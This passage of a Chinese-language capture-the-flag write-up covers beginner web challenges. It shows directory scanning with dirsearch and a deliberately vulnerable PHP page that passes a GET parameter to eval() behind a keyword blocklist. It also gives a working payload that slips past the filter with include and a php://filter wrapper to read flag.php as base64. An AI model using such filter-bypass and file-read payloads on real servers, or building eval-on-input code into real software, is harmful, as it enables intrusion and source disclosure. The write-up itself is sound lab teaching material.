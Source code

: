 访问得到`geek{crazy}`

### web2

注释base64解码得到`你会用dirsearch吗？`

`dirsearch`扫描网站目录
````cmd
python.exe ./dirsearch.py -u http://ip/web/web2/
````

得到http://ip/web/web2/flag.php，访问得到flag:`geek{Excellent}`

### web3

````php
 <?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
````

利用PHP命令`eval()`可以执行系统命令：

`http://ip/web/web3/index.php?c=include$_GET["a"]?>&a=php://filter/read=convert.base64-encode/resource=flag.php`

得到`PD9waHANCiRmbGFnPsInZWVre3ByZXR0eWdvb2R9ljsNCj8+`

base64解码得到<?php$flag="`geek{prettygood}`";?

原理：

> preg_match()：执行一个正则表达式匹配,过滤掉`/flag|system|php|cat|sort|shell|\.| |\'|\|echo|\;|\(/`，为了使正则失效，在输入c后加上`>`来闭合PHP代码，再通过PHP伪协议获取flag的base64。

### web4

![web4](web4.jpg)
